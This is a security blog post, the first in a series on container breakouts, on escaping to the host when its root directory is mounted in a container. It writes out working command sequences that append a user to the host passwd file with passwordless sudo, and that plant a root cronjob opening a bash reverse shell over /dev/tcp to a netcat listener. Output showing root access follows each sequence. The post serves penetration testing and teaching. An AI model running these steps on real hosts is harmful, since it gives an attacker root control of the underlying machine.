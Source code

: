 ```yaml
---
title: "Container Breakouts – Part 1: Access to root directory of the Host"
date: 2020-07-15T08:39:10+02:00
draft: false
tags:
- docker
- breakout
- security
---
```



This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root directory.

<!--more-->

The following posts will be part of the series:
- Part 1: Access to root directory of the Host
- Part 2: Privileged Container (not yet published)
- Part 3: Docker Socket (not yet published)

<!--
The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)
-->


## Intro

The **motivation** of this post is to **collect container breakouts**. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

I also realized during writing that the post must be sliced into more digestible pieces. 

The **first post** is **about** what could probably go wrong if the **host root directory** is **accessible** from the container. Due to the fact that we have only access to the disc, this approach is absolutely not an OpSec-safe approach to escalate your privileges. 

The proposed techniques use Unix operating system features that are more system security related, then container security related. But, as part of a comprehensive series it has to take place to show the importance.

## Shared Host root directory

Access to a container that shares directories with the host is **not** an **immediate problem**. **But** if the container has **access to** the **host root directory** as user `root` (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you hit the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer** group. After the user is created, we connect via **SSH** to the host. Admittedly, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2 

# ssh -l foo 172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ECDSA key fingerprint is SHA256:PezvADaTYqKcp4JfDO1bapTJaMEAVBjCXCCzanBZOW8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.17.0.1' (ECDSA) to the list of known hosts.
foo@172.17.0.1's password: 
Last login: Sat Jul 11 12:12:15 2020 from 127.0.0.1

arch [~]% sudo -i                  

[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)

```

For this scenario, the SSH daemon is running on the host, the configuration is not hardened and the `sudo` package is installed. The sudo step can be exchanged by creating another user with `uid=0(root)`. Another option would be the creation of SSH keys for existing users.

### Cronjob

Due to the fact that in a default setup the container is **direct connected to the host**, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a **reverse shell by** a **cronjob** that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The **cronjob** is executed **every minute** as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting **root access to** the **host** system. 

Here are all steps that must be performed (we start in the container).

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to host system. They are modifying the host and **absolutely not minimal-inversive or OpSec-safe**. If you **make mistakes**, you may mix up the configuration of the **host system** and **crash** it. **Be careful !!**

Furthermore, the proposed techniques are possible approaches to escape out of a container if one has access to the host root directory. By the nature of this attack vector, it is more a general Unix privileges escalation technique, then a dedicated container breakout.

I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous techniques stay tuned for the next post _**Part 2: Privileged Container**_.
<!--
If you are interested in further, less riotous techniques continue with the next post [Container Breakouts – Part 2: Privileged Container](../container-breakouts-part2).
-->


